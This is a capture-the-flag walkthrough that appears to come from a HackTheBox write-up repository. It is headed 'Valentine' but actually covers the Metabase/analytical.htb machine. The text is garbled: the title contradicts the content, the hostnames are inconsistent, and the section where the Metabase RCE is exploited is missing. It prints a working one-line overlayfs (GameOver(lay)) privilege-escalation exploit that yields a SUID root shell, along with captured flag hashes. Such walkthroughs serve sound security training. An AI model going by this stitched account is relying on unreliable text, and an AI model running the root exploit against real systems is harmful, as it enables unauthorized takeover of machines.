 # Valentine

<div align="left">

<figure><img src="../.gitbook/assets/image (2).png" alt="" width="75"><figcaption><p>hackthebox.com - © HACKTHEBOX</p></figcaption></figure>

</div>

🔗 [Valentine](https://www.hackthebox.com/machines/Valentine)

### Task 1 - Deploy the machine

🎯 Target IP: `10.xxxxxx`

Create a directory on the Desktop with the machine's name, and inside this directory, create another directory to store the materials and outputs needed to run the machine, including the scans made with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "1xxxxxxxxxxxxxxxxxxx valentine.htb" >> /etc/hosts
</strong>
mkdir -p htb/valentine.htb
cd htb/valentine.htb
mkdir {nmap,content,exploits,scripts}
# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 valentine.htb



```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target should be a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 - xxx?

```bash
nmap -p0- -sS -Pn -vvv valentine.htb -oN nmap/tcp_port_scan
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sS</td><td>SynScan</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open TCP ports on the machine: 22, 80.

{% hint style="info" %}
2
{% endhint %}

### 2.2 - xxx?

Now, we take more precise scan utilizing -sCV flags to retrieve versioning services and test common scripts.

```bash
nmap -p22,80 -sS -Pn -n -v -sCV -T4 valentine.htb -oG nmap/port_scan
```

```
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0
```

Since we lack credentials for SSH login, we will begin by examining port 80.

#### Port 80

Seeing http-title there's a new subdomain: http://analytical.htb/ and browsing on http port we notice there're being redirected (status code 302) to analytical.htb.

We can confirm it using a web proxy such as Burp Suite:

<figure><img src="../.gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

To resolve this, we add the domain to our /etc/hosts file

<figure><img src="../.gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

The task is to retrieve a new subdomain configured to provide a different application on the target web server, we found it discovering source code of web page:

<figure><img src="../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

This URL refers to login page, and to resolve it we need to add it to /etc/hosts

<figure><img src="../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
data.analytical.htb
{% endhint %}

### 2.3 - What application is running on data.analytical.htb?

By running WhatWeb or simply viewing the page, we discover that there is a Metabase web application.

```bash
whatweb http://data.analytical.htb/
http://data.analytical.htb/ [200 OK] Cookies[metabase.DEVICE], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[metabase.DEVICE], IP[10.129.229.224], Script[application/json], Strict-Transport-Security[max-age=31536000], Title[Metabase], UncommonHeaders[x-permitted-cross-domain-policies,x-content-type-options,content-security-policy], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

<figure><img src="../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Metabase
{% endhint %}

### 2.4 -  What version of Metabase is the target running?

Using WhatWeb and an nmap scan, we were able to discover the Metabase version. However, it is simpler to retrieve this information by viewing the source code of the web page.

<figure><img src="../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
v0.46.6
{% endhint %}



### 2.5 - What is the 2023 CVE ID assigned to the pre-authentication, remote code execution vulnerability in this version of Metabase?

Googling it, we found CVE ID relative to Metabase v0.46.6

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-38646" %}

{% hint style="info" %}
CVE-2023-38646
{% endhint %}

{% hint style="info" %}
metabase
{% endhint %}

### 2.9 -  Which environment variable contains the password for the metalytics user?

This questions take us an important hint to understand what we can do.

Infact, using command export, that show us environment variable we found credentials

<figure><img src="../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
META\_PASS
{% endhint %}

### Task 3 - Find user flag

### 3.1 - Submit the flag located in the metalytics user's home directory.

Upon checking with `sudo -l`, we found that we do not have permissions. However, considering we have discovered another open port 22 (SSH), we can attempt to use the credentials we just found to log in.

`ssh metalytics@analytics.htb`

<figure><img src="../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

5d03664f2ed9ba6767660926fcaa97b9

</details>

### 3.2 - What kernel version is installed on the host system?

We use `uname -a` command to display kernel version

<div align="left">

<figure><img src="../.gitbook/assets/image (299).png" alt=""><figcaption></figcaption></figure>

</div>

{% hint style="info" %}
6.2.0-25-generic
{% endhint %}

### 3.3 - What Ubuntu release is the system running?

We can use `lsb_release -a` or `cat /etc/os-release`\


<figure><img src="../.gitbook/assets/image (300).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
UBUNTU 22.04.03 LTS (JAMMY)
{% endhint %}

### 3.4 - What component used by the Ubuntu operating system on the target system is vulnerable to a privileges escalation vulnerability assigned two 2023 CVEs?

After finding an old version of the kernel, I'll search on Google to find a public exploit.

{% embed url="https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629" %}

{% hint style="info" %}
overlayfs
{% endhint %}

### Task 4 - Find root flag

### 4.1 - Submit the flag located in the root user's home directory.

As explained into github below, we can do GameOver(lay) Ubuntu Privilege Escalation

{% embed url="https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----fd256a170fae--------------------------------" %}

Then, executing bash script, we have become root and can now access the root flag.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

2ec3181b64936d66aae6e2bc1215a477

</details>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
